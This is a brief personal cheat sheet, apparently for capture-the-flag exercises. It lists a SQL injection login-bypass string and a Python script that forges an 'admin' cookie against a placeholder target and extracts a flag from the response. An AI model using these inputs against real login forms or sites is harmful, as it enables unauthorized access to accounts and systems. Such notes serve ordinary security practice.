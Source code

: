# Ch34tsh33t
My CheatSheet





*SQL Injection"
' OR '1'='1' --







*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]
